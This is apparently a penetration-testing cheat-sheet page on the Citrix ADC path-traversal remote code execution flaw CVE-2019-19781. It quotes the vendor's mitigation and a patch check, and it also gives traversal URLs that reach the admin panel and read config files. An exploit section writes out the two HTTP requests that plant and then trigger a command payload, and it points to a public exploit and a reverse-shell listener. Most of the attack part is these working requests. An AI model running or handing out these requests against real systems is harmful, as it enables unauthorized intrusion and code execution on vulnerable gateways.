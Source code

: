 Citrix Admin URL RCE (CVE-2019-19781)
=====================================


From the [Citrix report](https://support.citrix.com/article/CTX267679), it's
look like using a crafted URL you can bypass user permissions. The fix is the
following:

```
enable ns feature responder
add responder action respondwith403 respondwith "\"HTTP/1.1 403 Forbidden\r\n\r\n\""
add responder policy ctx267027 "HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/vpns/\") && (!CLIENT.SSLVPN.IS_SSLVPN || HTTP.REQ.URL.DECODE_USING_TEXT_MODE.CONTAINS(\"/../\"))" respondwith403
bind responder global ctx267027 1 END -type REQ_OVERRIDE
save config
```

A legit URL is `https://<host>/vpn/tmindex.html`, then you should access the admin
panel using the custom URL `https://<host>/vpn/..%2fvpns/apps.html`.

You can test this vulnerability by downloading some executable files:
```
/vpn/../vpns/services.html
/vpn/../vpns/cfg/smb.conf
```

You can check if a server is patched because it returns the following line as a
HTTP response:

```
HTTP/1.1 403 Forbidden
```

### Exploit

A full exploit can be download [here](https://github.com/trustedsec/cve-2019-19781).
It uses a python webshell, so you need a [listener](../reverse-shell.md). To exploit the
vulnerability you need to perform 2 requests:

- Create a new template file containing the RCE
- Request the created file to execute the command

```
POST https://<host>:<port>/vpn/../vpns/portal/scripts/newbm.pl
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
NSC_USER: ../../../netscaler/portal/templates/<filename>
NSC_NONCE: <nounce>

url=127.0.0.1&title=<payload>&desc=desc&UI_inuse=a
```

```
GET https://<host>:<port>/vpn/../vpns/portal/<filename>.xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
NSC_USER: <randomuser>
NSC_NONCE: <nounce>
```

